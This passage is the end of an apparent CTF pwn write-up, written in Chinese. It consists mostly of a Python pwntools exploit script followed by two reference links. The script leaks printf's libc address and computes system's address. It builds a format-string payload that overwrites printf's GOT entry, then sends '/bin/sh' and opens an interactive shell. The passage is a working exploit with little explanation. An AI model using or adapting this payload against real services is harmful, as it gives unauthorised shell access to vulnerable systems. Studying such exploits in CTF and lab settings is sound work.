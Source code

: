 ```python
	system_addr = libc.sym['system'] + printf_addr - libc.sym['printf']
	print hex(system_addr),hex(printf_addr)

	payload = ("%{}c%30$hhn".format(system_addr&0xff)).ljust(16,'+')
	payload += ("%{}c%31$hn".format( ((system_addr>>8)&0xffff) - (system_addr&0xff) - 5 )).ljust(16,'+')
	payload += p64( elf.got['printf'] ) + p64( elf.got['printf']+1 )
	info(payload)
#DEBUG()
	mysend(payload)
	
	io.sendline("s")
	io.sendline("111111")
	io.sendline("/bin/sh\0")

	io.sendline("v")
	io.sendline("111111")

if __name__ == "__main__":
	
	set_to_memset()
	printf_addr = leak(elf.got['printf'])
	printf_to_system(printf_addr)

	io.interactive()
```

<br>

## Reference

- 在线libc-database：https://libc.blukat.me/
- _start的作用：https://stackoverflow.com/questions/29694564/what-is-the-use-of-start-in-c

